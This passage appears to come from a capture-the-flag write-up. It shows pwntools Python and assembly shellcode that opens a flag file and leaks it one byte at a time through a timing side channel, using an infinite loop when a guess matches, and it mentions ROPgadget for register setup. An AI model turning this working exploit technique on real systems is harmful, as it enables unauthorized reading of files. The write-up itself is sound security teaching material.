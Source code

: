 ```python
```

To get the R9 register (`offset` parameter of `mmap`) set to 0, I had to
use [ROPgadget](https://github.com/JonathanSalwan/ROPgadget) to find an appropriate gadget. Now, we can finally load our
shell code to leak the byte:

```python
file_name = exe.address + 0x000020ea
data_segment = exe.bss(20)

sc = asm(f"""
    mov rdi, {hex(file_name)}
    xor rsi, rsi # O_RDONLY
    xor rdx, rdx
    mov rax, 2 # open
    syscall
    
    mov rdi, rax
    mov rsi, {hex(data_segment)}
    mov rdx, 0x30
    xor rax, rax # read
    syscall
    
    mov rsi, {hex(data_segment)}
    add rsi, {offset}
    xor rax, rax
    mov al, {hex(ord(current))}
    mov bl, [rsi]
    cmp al, bl
    
    je L2
    jmp done
    L2:
    nop
    jmp L2
    done:
    nop""")
io.sendline(sc)

start = time.time()
io.recvall(timeout=5)

if (time.time() - start > 5):
    print(current)
io.close()
```

The shellcode does something like this:

```c
file = open(flag, O_RDONLY)
read(file, bss, 0x30)

while (bss[offset] == current) {}
```
